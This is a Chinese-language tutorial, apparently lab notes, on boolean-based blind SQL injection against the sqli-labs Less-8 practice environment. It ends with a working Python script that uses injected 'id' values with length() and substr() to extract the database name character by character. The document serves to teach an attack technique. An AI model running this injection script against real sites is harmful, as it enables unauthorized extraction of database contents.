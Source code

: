 # 布尔盲注获取数据库名

- 该代码主要实现用布尔盲注来得到数据库名
- 以sqli-labs/less-8为例

### 环境布置

- 实现该功能需要用`requests`模块、`string`模块，和注入点的url，并创建一个请求

![](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311210234535.png)



### 确定数据库的长度

- 因为数据库的长度可能是1位也有可能是五十位，所以我们需要建立一个循环，让他测试一下到底有多少位，可以根据请求所返回的正文来判断是否正确（该场景下，如果条件内容是正确的会返回`You are in ...`,错误则没有。利用该情况可以实现布尔盲注）

  ![image-20240311191649053](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311191649053.png)


### 确定数据库名

- 经过上一步骤，已经得到该数据库名长度为八位，那么分析一下，数据库名可以由大写字母`A~Z`、小写字母`a~z`、数字`0~9`还有一些特殊符号，但是必须由字母开头。这些都是可打印字符，python中有一个`string`模块可以得到所有的可打印字符，那么只需要把这些字符跟数据库名的字符依次比较，即可得到数据库的名字

  ![image-20240311200505616](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311200505616.png)



### 源码

```python
import requests
import string
url="http://192.168.200.148/sqli-labs-master/Less-8/"

req=requests.session()
# 确定数据库名的长度
for i in range(1,51):
    params={
        'id': f" 1' and length(database())={i} -- "
    }
    res=req.get(url=url,params=params)
    if "You are in......" in res.text:
        dbname_len=i
        break
print(f"[+] The length of dbname is {i}")

# 确定数据库名
c_set=string.printable.strip()
db_name=""
for i in range(1,dbname_len+1):
   for  j in c_set :
        params={
        'id': f" 1' and substr(database(),{i},1)='{j}' -- "
        }
        res=req.get(url=url,params=params)
        if "You are in......" in res.text:
            db_name+=j
            break
print(f"[+] name of The Database is {db_name}")


```

